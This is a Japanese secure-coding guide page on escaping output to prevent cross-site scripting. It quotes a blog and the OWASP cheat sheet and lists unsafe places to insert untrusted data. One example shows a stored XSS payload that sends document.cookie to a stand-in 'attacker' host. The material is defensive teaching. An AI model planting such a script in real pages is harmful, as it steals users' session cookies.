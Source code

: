 # 出力をエスケープする

### 一段落説明

HTML やその他のウェブ言語は、コンテンツと実行可能なコードを混在させています。- 1 つの HTML の段落には、JavaScript を実行することによって実現されているデータの視覚的な表現が含まれている場合があります。HTML をレンダリングしたり API からデータを返したりするときに、純粋なコンテンツだと思っていたものが、実際にはブラウザによって解釈され、実行される JavaScript コードを含んでいる場合があります。これは例えば、攻撃者によってデータベースに挿入されたコンテンツをレンダリングするときに起こります - `<div><script>//悪意のあるコード</script></div>` といったように。これを緩和するには、ブラウザに対して、信頼されていないデータのかたまりをコンテンツとしてのみ扱い、決して解釈しないように指示することが有効です - このテクニックはエスケープと呼ばれます。多くの npm ライブラリや HTML テンプレートエンジンがエスケープ機能を提供しています (例: [escape-html](https://github.com/component/escape-html)、[node-esapi](https://github.com/ESAPI/node-esapi))。HTMLコンテンツだけでなく、CSS や JavaScript もエスケープする必要があります。

### コード例 - 信頼されていないデータを HTML に挿入しない

```html
<script>...ここに信頼されていないデータを挿入しないでください...</script>   script タグの中に直接挿入する
 
 <!--...ここに信頼されていないデータを挿入しないでください...-->             HTML コメントアウトの中に挿入する
 
 <div ...ここに信頼されていないデータを挿入しないでください...=test />       属性名として挿入する
 
 <ここに信頼されていないデータを挿入しないでください... href="/test" />   要素名として挿入する
 
 <style>...ここに信頼されていないデータを挿入しないでください...</style>   CSS に直接挿入する

```

### コード例 - DB に注入される可能性のある悪質なコンテンツ

```html
<div>
  <b>A pseudo comment to the a post</b>
  <script>
    window.location='http://attacker/?cookie='+document.cookie
</script>
</div>

```

<br/><br/>

### ブログ引用: "When we don’t want the characters to be interpreted"（文字を解釈させたくない場合）

ブログ [benramsey.com](https://benramsey.com/articles/escape-output/) より
> データは、Webブラウザに送信される HTML、データベースに送信される SQL、RSS リーダーに送信される XML、ワイヤレスデバイスに送信される WML などの形でアプリケーションを離れる可能性があります。そのような可能性は至るところにあります。これらそれぞれのケースには、プレーンテキストとは異なる解釈をされる特殊文字のセットが存在します。時にこれらの特殊文字が解釈されるように送信したい場合もありますが（例えば Web ブラウザに送信される HTML タグなど）、他の場合においては（ユーザや他のソースからの入力の場合）、そういった文字を解釈されたくないので、エスケープする必要があります。

> エスケープは、エンコードと呼ばれることもあります。つまり、それはデータを、実行されたり解釈されたりしない形で表現するプロセスのことを指すのです。例えば、HTML において `<strong>` は特別な意味を持つので、ブラウザでは以下のようなテキストを太字テキストとして表示します:  
> `<strong>これは太字のテキストです</strong>`  
> ところで、ブラウザにタグを解釈させずに、タグそのものを表示させたい場合はどうすれば良いでしょうか。その場合は、HTML において特別な意味を持つ角括弧をエスケープする必要があります。以下はエスケープされた HTML を表します:  
> `&lt;strong&gt;これは太字のテキストです&lt;/strong&gt;`


<br/><br/>

### ブログ引用: "OWASP recommends using a security-focused encoding library"（OWASP はセキュリティに重点を置いたエンコードライブラリの利用を推奨します）

OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) より
> これらのエンコーダを書くことはそれほど難しいことではありませんが、いくつか落とし穴が隠れています。例えば、JavaScript の " のような、エスケープショートカットを使いたくなるかもしれません。しかしながら、このような値は危険であり、ブラウザのネストされたパーサーによって誤って解釈される可能性があります。また、エスケープ文字のエスケープを忘れる可能性もあり、これは攻撃者によって、安全化の試みを無効化するために利用されます。 **OWASP はこれらのルールが適切に実装されていることを確かにするために、セキュリティに重点を置いたエンコードライブラリの利用を推奨します。**


<br/><br/>

### ブログ引用: "You MUST use the escape syntax for the part of the HTML"
OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) より
> しかし、信頼されていないデータを、`<script>` タグの中や、onmouseover などのイベントハンドラの中、もしくは CSS の中や URL の中に入れていると、HTML エンティティのエンコーディングは機能しません。そのため、たとえすべての場所で HTML エンティティエンコーディングメソッドを利用していたとしても、XSS に対して脆弱である可能性が高いです。信頼されていないデータを入れている HTML ドキュメントの箇所には、**必ず** エスケープ構文を使用する必要があります。